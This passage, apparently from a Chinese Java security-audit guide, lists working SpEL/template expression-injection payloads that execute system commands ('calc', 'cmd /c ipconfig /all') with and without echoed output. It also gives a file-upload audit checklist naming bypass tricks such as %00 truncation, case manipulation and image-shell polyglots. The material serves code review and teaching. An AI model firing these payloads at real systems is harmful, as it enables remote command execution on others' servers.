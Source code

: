 其他

```java
、、正常无回显
T(java.lang.Runtime).getRuntime().exec("calc")
new java.lang.ProcessBuilder("calc").start()

、、正常有回显
new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "ipconfig /all").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()


、、模板的无回显，就将上面的payload放到“ #{} ”
#{T(java.lang.Runtime).getRuntime().exec("calc")}
#{new java.lang.ProcessBuilder("calc").start()}

、、模板有回显，就将上面的payload放到“ #{} ”
#{new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "ipconfig /all").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()}

```

## 三、文件上传

- 首先关注文件后缀验证，使用白名单或黑名单，建议使用白名单。使用`lastIndexOf()`方法获取文件后缀，使用`IndexOf()`可能被绕过。如果是白名单验证时，使用`toLowerCase()`处理再进行对比，或使用`equalsIgnoreCase()`，避免被大小写绕过。

- 是否校验了文件的大小。

- 是否校验了文件类型`getContentType()`，这种方式虽然能够被绕过，但还是会增加攻击成本。

- 对于使用Hutool的FileTypeUtil的`getType()`或`ImageIO.read()`通过读取文件流中前N个byte值来判断文件类型的，也可以使用类似图片马的方式进行绕过。

- "%00"截断能否绕过。

- QP编码特性能否绕过。`javax.mail.internet.MimeUtility.encodeWord()`方法。

- 有一些安全校验的顺序有问题，先将文件保存，再进行安全检测，如果不通过检测则进行删除，此时可以在文件保存后触发报错终止流程，导致不删除文件。

  重点是文件上传相关类或函数：

```java
FileUpload
FileUploadBase
FileItemIteratorImpl
FileItemStreamImpl
FileUtils
UploadHandleServlet
FileLoadServlet
FileOutputStream
DiskFileItemFactory
MultipartRequestEntity
MultipartFile
com.oreilly.servlet.MultipartRequest
```
